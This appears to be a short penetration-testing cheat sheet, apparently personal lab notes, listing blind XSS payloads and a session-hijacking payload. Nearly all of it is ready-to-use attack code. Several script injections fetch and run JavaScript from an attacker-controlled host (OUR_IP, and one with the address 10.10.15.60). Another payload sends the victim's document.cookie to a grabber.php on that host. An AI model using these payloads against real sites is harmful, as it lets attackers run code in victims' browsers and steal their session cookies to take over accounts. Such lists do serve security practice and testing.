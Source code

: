 ___

# Blind XSS

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
https://github.com/mandatoryprogrammer/xsshunter-express

```html
"><script src=http://10.10.15.60></script>
```

# Session Hijacking

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc

```html
"><script>document.location='http://10.10.15.60/XSS/grabber.php?c='+document.cookie</script>
```

![[Pasted image 20240928120027.png]]

![[Pasted image 20240928120156.png]]



